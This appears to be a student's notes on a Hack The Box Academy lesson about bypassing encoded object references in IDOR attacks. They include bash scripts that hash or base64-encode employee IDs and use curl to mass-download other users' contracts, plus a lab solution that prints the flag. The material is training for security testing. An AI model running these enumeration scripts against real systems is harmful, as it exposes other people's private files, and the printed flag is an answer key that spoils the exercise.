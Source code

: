 ﻿In the previous section, we saw an example of an IDOR that uses employee uids in clear text, making it easy to enumerate. In some cases, web applications make hashes or encode their object references, making enumeration more difficult, but it may still be possible.

Let's go back to the`Employee Manager` web application to test the`Contracts` functionality:

 ![](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_contracts.jpg)

If we click on the`Employment_contract.pdf` file, it starts downloading the file. The intercepted request in Burp looks as follows:

![download_contract](https://academy.hackthebox.com/storage/modules/134/web_attacks_idor_download_contract.jpg)

We see that it is sending a`POST` request to`download.php` with the following data:


```php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

Using a`download.php` script to download files is a common practice to avoid directly linking to files, as that may be exploitable with multiple web attacks. In this case, the web application is not sending the direct reference in cleartext but appears to be hashing it in an`md5` format. Hashes are one-way functions, so we cannot decode them to see their original values.

We can attempt to hash various values, like`uid`,`username`,`filename`, and many others, and see if any of their`md5` hashes match the above value. If we find a match, then we can replicate it for other users and collect their files. For example, let's try to compare the`md5` hash of our`uid`, and see if it matches the above hash:


```shell-session
smoothment@htb[/htb]$ echo -n 1 | md5sum

c4ca4238a0b923820dcc509a6f75849b -
```

Unfortunately, the hashes do not match. We can attempt this with various other fields, but none of them matches our hash. In advanced cases, we may also utilize`Burp Comparer` and fuzz various values and then compare each to our hash to see if we find any matches. In this case, the`md5` hash could be for a unique value or a combination of values, which would be very difficult to predict, making this direct reference a`Secure Direct Object Reference`. However, there's one fatal flaw in this web application.

---

## Function Disclosure

As most modern web applications are developed using JavaScript frameworks, like`Angular`,`React`, or`Vue.js`, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers. For example, if the above hash was being calculated on the front-end, we can study the function and then replicate what it's doing to calculate the same hash. Luckily for us, this is precisely the case in this web application.

If we take a look at the link in the source code, we see that it is calling a JavaScript function with`javascript:downloadContract('1')`. Looking at the`downloadContract()` function in the source code, we see the following:


```javascript
function downloadContract(uid) {
 $.redirect("/download.php", {
 contract: CryptoJS.MD5(btoa(uid)).toString(),
 }, "POST", "_self");
}
```

This function appears to be sending a`POST` request with the`contract` parameter, which is what we saw above. The value it is sending is an`md5` hash using the`CryptoJS` library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

In this case, the value being hashed is`btoa(uid)`, which is the`base64` encoded string of the`uid` variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling`downloadContract('1')`. So, the final value being used in the`POST` request is the`base64` encoded string of`1`, which was then`md5` hashed.

We can test this by`base64` encoding our`uid=1`, and then hashing it with`md5`, as follows:

```shell-session
smoothment@htb[/htb]$ echo -n 1 | base64 -w 0 | md5sum

cdd96d3cc73d1dbdaffa03cc6cd7339b -
```

**Tip:** We are using the`-n` flag with`echo`, and the`-w 0` flag with`base64`, to avoid adding newlines, in order to be able to calculate the`md5` hash of the same value, without hashing newlines, as that would change the final`md5` hash.

As we can see, this hash matches the hash in our request, meaning that we have successfully reversed the hashing technique used on the object references, turning them into IDOR's. With that, we can begin enumerating other employees' contracts using the same hashing method we used above.`Before continuing, try to write a script similar to what we used in the previous section to enumerate all contracts`.

---

## Mass Enumeration

Once again, let us write a simple bash script to retrieve all employee contracts. More often than not, this is the easiest and most efficient method of enumerating data and files through IDOR vulnerabilities. In more advanced cases, we may utilize tools like`Burp Intruder` or`ZAP Fuzzer`, but a simple bash script should be the best course for our exercise.

We can start by calculating the hash for each of the first ten employees using the same previous command while using`tr -d` to remove the trailing`-` characters, as follows:

 Bypassing Encoded References

```shell-session
smoothment@htb[/htb]$ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

cdd96d3cc73d1dbdaffa03cc6cd7339b
0b7e7dee87b1c3b98e72131173dfbbbf
0b24df25fe628797b3a50ae0724d2730
f7947d50da7a043693a592b4db43b0a1
8b9af1f7f76daf0f02bd9c48c4a2e3d0
006d1236aee3f92b8322299796ba1989
b523ff8d1ced96cef9c86492e790c2fb
d477819d240e7d3dd9499ed8d23e7158
3e57e65a34ffcb2e93cb545d024f5bde
5d4aace023dc088767b4e08c79415dcd
```

Next, we can make a`POST` request on`download.php` with each of the above hashes as the`contract` value, which should give us our final script:

Code: bash

```bash
#!/bin/bash

for i in {1..10}; do
 for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
 curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
 done
done
```

With that, we can run the script, and it should download all contracts for employees 1-10:


```shell-session
smoothment@htb[/htb]$ bash ./exploit.sh
smoothment@htb[/htb]$ ls -1

contract_006d1236aee3f92b8322299796ba1989.pdf
contract_0b24df25fe628797b3a50ae0724d2730.pdf
contract_0b7e7dee87b1c3b98e72131173dfbbbf.pdf
contract_3e57e65a34ffcb2e93cb545d024f5bde.pdf
contract_5d4aace023dc088767b4e08c79415dcd.pdf
contract_8b9af1f7f76daf0f02bd9c48c4a2e3d0.pdf
contract_b523ff8d1ced96cef9c86492e790c2fb.pdf
contract_cdd96d3cc73d1dbdaffa03cc6cd7339b.pdf
contract_d477819d240e7d3dd9499ed8d23e7158.pdf
contract_f7947d50da7a043693a592b4db43b0a1.pdf
```

As we can see, because we could reverse the hashing technique used on the object references, we can now successfully exploit the IDOR vulnerability to retrieve all other users' contracts.

# Question
---

![Pasted image 20250217155044.png](../../../../IMAGES/Pasted%20image%2020250217155044.png)

We can see the following request:

```http
GET /download.php?contract=MQ%3D%3D HTTP/1.1

Host: 94.237.59.190:52218

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: keep-alive

Referer: http://94.237.59.190:52218/contracts.php

Upgrade-Insecure-Requests: 1

Priority: u=0, i




```


As seen, the `contract=` is base64 encoded, it decodes to `MQ==` which also decodes to `1`:

![Pasted image 20250217160101.png](../../../../IMAGES/Pasted%20image%2020250217160101.png)

So, after understanding the behavior of the contract, we can create a bash script to enumerate and get the flag:

```bash
#!/bin/bash

url="http://94.237.59.190:52218/download.php?contract="
flag_found=false

cleanup() {
 if ! $flag_found; then
 rm -f contract_*.pdf 2>/dev/null
 fi
}

trap cleanup EXIT

for i in {1..20}; do
 for encodedid in $(echo -n $i | base64 -w 0); do
 filename="contract_$i.pdf"
 
 # Download and save to file
 curl -s -o "$filename" "${url}${encodedid}"
 
 # Check for flag pattern in PDF
 if strings "$filename" | grep -aq "HTB{"; then
 flag=$(strings "$filename" | grep -aoP "HTB{.*?}" | head -1)
 echo -e "\033[1;32m[+] FLAG FOUND: $flag\033[0m"
 flag_found=true
 exit 0
 else
 rm -f "$filename"
 fi
 done
done

if ! $flag_found; then
 echo -e "\033[1;31m[-] No flag found in contracts 1-20\033[0m"
fi
```

We get this output:

```
./doc.sh

[+] FLAG FOUND: HTB{h45h1n6_1d5_w0n7_570p_m3}
```

Flag is:

```
HTB{h45h1n6_1d5_w0n7_570p_m3}
```

